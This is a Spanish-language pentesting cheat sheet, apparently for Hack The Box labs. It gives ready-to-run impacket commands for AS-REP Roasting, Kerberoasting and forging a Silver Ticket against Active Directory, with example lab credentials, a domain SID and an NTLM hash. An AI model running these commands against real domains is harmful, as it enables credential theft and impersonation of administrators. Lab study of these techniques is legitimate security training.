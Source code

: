 <br>

<h3 id="Kerberos2">Aplicando AS-REP Roasting Attack</h3>

```bash
# Aplicando AS-REP Roasting attack a una lista de usuarios (en caso de que no tengamos contraseñas validas)
impacket-GetNPUsers -no-pass -userfile <lista_usuarios> <dominio/>
Ej: impacket-GetNPUsers -no-pass -userfile users.txt dominio.htb/


# Aplicando AS-REP Roasting attack con credenciales validas para obtener el TGT de una lista de usuarios
impacket-GetNPUsers <dominio>/<usuario>:<contraseña> -request
Ej: impacket-GetNPUsers dominio.htb/emily:passwd123$! -request


# Aplicando AS-REP Roasting attack para obtener el TGT de un solo usuario del que no tengamos contraseña
impacket-GetNPUsers <dominio>/<usuario> -no-pass
EJ: impacket-GetNPUsers dominio.htb/pepito -no-pass
```

<br>

<h3 id="Kerberos3">Aplicando Kerberoasting Attack</h3>

```bash
# Aplicando kerberoasting attack (solo si tienes usuario y contraseña válidos)
impacket-GetUserSPNs <dominio>/<usuario>:<contraseña>
Ej: impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18


# Aplicando kerberoasting attack para obtener SPN
impacket-GetUserSPNs -request <dominio>/<usuario>:<contraseña>
Ej: impacket-GetUserSPNs -request active.htb/SVC_TGS:GPPstillStandingStrong2k18
```

<br>

<h3 id="Kerberos4">Obteniendo Datos para Aplicar Silver Ticket Attack y Aplicandolo</h3>

```bash
# Obteniendo dominio SID
impacket-getPac -targetUser <usuario> <dominio>/<usuario>:<contraseña>
Ej: impacket-getPac -targetUser administrator dominio.htb/pepito:passwd123$!


# Creando hash NTLM para aplicar silver ticket attack
Copiar contraseña de usuario a usar y usar la siguiente web: https://codebeautify.org/ntlm-hash-generator
Y lo pasamos a minusculas: echo "hash_obtenido" | tr '[A-Z]' '[a-z]'


# Aplicando silver ticket attack
impacket-ticketer -spn <dato_del_spn> -domain-sid <SID_Obtenido> -dc-ip <IP o dominio_del_servidor> -nthash <hashNTLM_del_usuario> -domain <dominio> <usuario_a_suplantar>
Ej: impacket-ticketer -spn MSSQLSvc/dc1.scrm.local:1433 -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -dc-ip dc1.scrm.local -nthash b999a16500b87d17ec7f2e2a68778f05 -domain scrm.local Administrator
```

